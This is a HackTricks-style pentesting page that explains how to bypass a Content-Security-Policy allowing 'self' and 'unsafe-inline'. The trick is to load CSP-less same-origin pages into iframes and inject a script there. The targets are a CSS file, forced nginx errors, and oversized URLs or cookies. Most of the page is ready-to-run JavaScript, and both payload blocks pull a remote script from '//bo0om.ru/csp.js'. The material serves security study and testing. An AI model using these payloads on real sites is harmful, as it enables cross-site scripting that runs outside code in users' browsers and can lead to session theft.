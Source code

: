 
Learn AWS hacking from zero to hero with htARTE (HackTricks AWS Red Team Expert)!

##
#
https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/content-security-policy-csp-bypass/csp-bypass-self-+-unsafe-inline-with-iframes.md
#
##

A configuration such as:

Content-Security-Policy: default-src ‘self’ ‘unsafe-inline’;

Prohibits usage of any functions that execute code transmitted as a string. For example: eval, setTimeout, setInterval will all be blocked because of the setting unsafe-eval

Any content from external sources is also blocked, including images, CSS, WebSockets, and, especially, JS
Via text & images

Modern browsers transform images and texts into HTML files to visualize them better (set background, center, etc).

Therefore, if you open an image or txt file such as favicon.ico or robots.txt with an iframe, you will open it as HTML.

These kinds of pages usually don't have CSP headers and might not have X-Frame-Options, so you can execute arbitrary JS from them:
```
frame=document.createElement("iframe");
frame.src="/css/bootstrap.min.css";
document.body.appendChild(frame);
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```
Via Errors

Same as text files or images, error responses usually don't have CSP headers and might not have X-Frame-Options. So, you can force errors and load them inside an iframe:
```
// Force nginx error
frame=document.createElement("iframe");
frame.src="/%2e%2e%2f";
document.body.appendChild(frame);

// Force error via long URL
frame=document.createElement("iframe");
frame.src="/"+"A".repeat(20000);
document.body.appendChild(frame);

// Force error via long cookies
for(var i=0;i<5;i++){document.cookie=i+"="+"a".repeat(4000)};
frame=document.createElement("iframe");
frame.src="/";
document.body.appendChild(frame);
// Don't forget to remove them
for(var i=0;i<5;i++){document.cookie=i+"="}

// After any of the previous examples, you can execute JS in the iframe with something like:
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```
References

    https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/

Learn AWS hacking from zero to hero with htARTE (HackTricks AWS Red Team Expert)!
